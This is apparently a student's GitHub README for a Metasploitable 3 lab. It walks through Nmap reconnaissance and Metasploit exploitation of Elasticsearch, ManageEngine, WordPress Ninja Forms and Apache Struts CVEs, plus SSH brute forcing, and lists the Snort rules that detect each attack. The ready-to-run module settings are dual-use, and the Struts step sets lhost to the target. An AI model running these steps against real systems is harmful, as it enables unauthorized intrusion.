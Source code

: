 # Cyber_Security_Base_Project_II

As **Jeffrey Witty**, a very shy, Christian cybersecurity enthusiast with an INTJ personality type, I approach this project with hyper-careful diligence, aligning with my faith-driven commitment to excellence.  
🕘 Dated: Wednesday, June 11, 2025**.  

This document details my exploration of the **Metasploitable 3** environment, targeting a **Windows Server 2008** and **Ubuntu Server 14** system, hosted at:  
🔗 [Cyber_Security_Base_Project_II GitHub Repository](https://github.com/aazard/Cyber_Security_Base_Project_II/tree/main)

My quiet nature finds strength in methodical analysis, and I cherish the opportunity to deepen my cybersecurity knowledge through this exercise.

---

## 🎯 Target – Metasploitable 3

- **Systems:** Windows Server 2008 & Ubuntu Server 14

---

## 🔍 STEP 1: Run an Nmap Ping Sweep Scan

```bash
nmap -sP 192.168.1.1/24
🧭 STEP 2: Identify Target Host
Target host confirmed as:
192.168.1.40

🛠️ STEP 3: Run an Nmap Scan with OS Fingerprinting
bash
Copy
Edit
nmap -sC -sV -p- -A -oA Meta3 192.168.1.40
Key Findings:

Several open ports and outdated services.

No authentication for admin functions.

Default credentials unchanged.

Snort did not trigger alerts (port scan detection commented out in snort.conf).

🚨 EXPLOIT I – Elasticsearch (CVE-2014-3120)
🔌 Port 9200 – Elasticsearch
Vulnerability: CVE-2014-3120

Reference: Rapid7 Module

🔍 Search for Exploit
bash
Copy
Edit
searchsploit elasticsearch
🧨 Launch Metasploit
bash
Copy
Edit
msfconsole
search elasticsearch
use exploit/multi/elasticsearch/script_mvel_rce
set rhost 192.168.1.40
exploit
Post-exploit commands:

bash
Copy
Edit
sysinfo
shell
whoami
🛡️ Snort Rule Fix
Uncomment in server-other.rules (line ~811):

css
Copy
Edit
SERVER-OTHER ElasticSearch script remote code execution attempt [Classification: Attempted User Privilege Gain]
⚙️ EXPLOIT II – ManageEngine (CVE-2015-8249)
🔌 Port 8020 – Apache Service
Visited:
http://192.168.1.40:8020

ManageEngine Desktop Central (Build No. 91084)
Default credentials: admin:admin

🔍 Search for Exploit
bash
Copy
Edit
searchsploit manageengine desktop central 9
🧨 Metasploit Exploit
bash
Copy
Edit
msfconsole
search manageengine
use exploit/windows/http/manageengine_connectionid_write
set rhost 192.168.1.40
exploit
Verification:

bash
Copy
Edit
sysinfo
shell
whoami
🛡️ Snort Rule Fix
Uncomment lines 1854–1856 in server-webapp.rules:

css
Copy
Edit
SERVER-WEBAPP ManageEngine Desktop Central FileUploadServlet directory traversal attempt [Classification: Web Application Attack]
🌐 EXPLOIT III – WordPress (CVE-2016-1209)
🔌 Port 8585 – WordPress Instance
Accessed via:
http://192.168.1.40:8585

🔍 Research
Rapid7 WP Ninja Forms Exploit

🧨 Metasploit Exploit
bash
Copy
Edit
msfconsole
search wp_ninja_forms
use exploit/multi/http/wp_ninja_forms_unauthenticated_file_upload
set rhost 192.168.1.40
set rport 8585
set TARGETURI /wordpress/
set FORM_PATH /index.php/king-of-hearts/
exploit
🛡️ Snort Rule Fix
Uncomment line 2284 in server-webapp.rules and add port 8585 to HTTP monitoring:

css
Copy
Edit
SERVER-WEBAPP WordPress Ninja Forms nf_async_upload arbitrary PHP file upload attempt [Classification: Attempted Administrator Privilege Gain]
🔐 EXPLOIT IV – SSH Brute Forcing
👥 List Users
bash
Copy
Edit
net users
📄 Prepare User File
Saved as user.txt

🧨 Brute Force with Metasploit
bash
Copy
Edit
use auxiliary/scanner/ssh/ssh_login
set rhost 192.168.1.40
set USER_AS_PASS true
set USER_FILE user.txt
exploit
Valid credentials discovered:
Vagrant:Vagrant

🛡️ Snort Consideration
Snort typically ineffective for detecting high-speed SSH brute force attacks. More useful for slow scans or known patterns.

🌉 EXPLOIT V – Apache Struts (CVE-2016-3087)
🔌 Port 8282 – Apache Tomcat
Nmap detected Apache Tomcat.

🔍 Research
Rapid7 Vulnerability Detail

🧨 Metasploit Exploit
bash
Copy
Edit
msfconsole
search rest_exec
use exploit/multi/http/struts_dmi_rest_exec
set lhost 192.168.1.40
set lport 8282
exploit
🛡️ Snort Rule Fix
Ensure lines 118–119 in server-apache.rules are active and port 8282 is included:

css
Copy
Edit
SERVER-APACHE Apache Struts remote code execution attempt [Classification: Attempted Administrator Privilege Gain]
🧠 Is it Easier to Fix the Application Than to Detect Attacks?
Detecting attacks is generally easier than fixing applications.
Fixing requires navigating massive codebases, often introducing new bugs. Implementation errors, especially in complex systems like IoT, increase developer workload. In contrast, methods like recon, privilege escalation, and pen testing reveal vulnerabilities more efficiently.

IDS tools like Snort and log analysis help identify patterns and vulnerabilities—though false positives are common. Once identified, vulnerabilities in modern open-source platforms can be patched more easily, but only after detection.

As a Christian technologist, I see detection as a responsible stewardship of system integrity, aligning with my faith in proactive, secure design.
